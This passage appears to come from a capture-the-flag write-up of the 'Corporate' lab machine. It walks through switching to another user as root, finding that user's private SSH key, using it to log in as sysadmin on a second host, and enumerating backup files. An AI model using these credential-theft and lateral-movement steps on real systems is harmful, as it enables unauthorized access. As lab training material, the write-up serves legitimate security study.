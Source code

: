 ```

# numResponses: 2
# numEntries: 1
```

There were two users in the group, `stevie.rosenbaum` and `amie.torphy`.

I ran `su` and logged in as `stevie.rosenbaum`.
```
root@corporate-workstation-04:~# su - stevie.rosenbaum
stevie.rosenbaum@corporate-workstation-04:~$ id
uid=5007(stevie.rosenbaum) gid=5007(stevie.rosenbaum) groups=5007(stevie.rosenbaum),500(sysadmin),503(it)
```

A private SSH key was in user's `.ssh/` directory.
```
stevie.rosenbaum@corporate-workstation-04:~$ ls -la .ssh
total 28
drwx------ 2 stevie.rosenbaum stevie.rosenbaum 4096 Apr 13  2023 .
drwxr-x--- 5 stevie.rosenbaum stevie.rosenbaum 4096 Nov 27  2023 ..
-rw------- 1 stevie.rosenbaum stevie.rosenbaum   61 Apr 13  2023 config
-rw------- 1 stevie.rosenbaum stevie.rosenbaum 2635 Apr 13  2023 id_rsa
-rw-r--r-- 1 stevie.rosenbaum stevie.rosenbaum  591 Apr 13  2023 id_rsa.pub
-rw------- 1 stevie.rosenbaum stevie.rosenbaum  364 Apr 13  2023 known_hosts
-rw-r--r-- 1 stevie.rosenbaum stevie.rosenbaum  142 Apr 13  2023 known_hosts.old
```

I checked the SSH config file and identified the key was for `sysadmin`.
```
stevie.rosenbaum@corporate-workstation-04:~$ cat .ssh/config
Host mainserver
    HostName corporate.htb
    User sysadmin  <---
```

I downloaded the key and used it to SSH into the host at `10.9.0.1`.
```
❯ ssh -i id_rsa sysadmin@10.9.0.1
Linux corporate 5.15.131-1-pve #1 SMP PVE 5.15.131-2 (2023-11-14T11:32Z) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 27 09:50:05 2023 from 10.8.0.3
sysadmin@corporate:~$ id
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin)
```

## Root (Corporate)
### Enum
After performing routine manual and automated enumeration, I focused on the backup files. Two `proxmox` backup files were of particular interest because they were virtual machine backups and may contain sensitive data.
```
sysadmin@corporate:/var/backups$ ls -la
total 62528
drwxr-xr-x  4 root root     4096 Nov 27  2023 .
drwxr-xr-x 12 root root     4096 Apr  8  2023 ..
-rw-r--r--  1 root root    51200 Apr  9  2023 alternatives.tar.0
-rw-r--r--  1 root root     6302 Nov 27  2023 apt.extended_states.0
-rw-r--r--  1 root root      782 Apr 12  2023 apt.extended_states.1.gz
-rw-r--r--  1 root root      766 Apr  8  2023 apt.extended_states.2.gz
```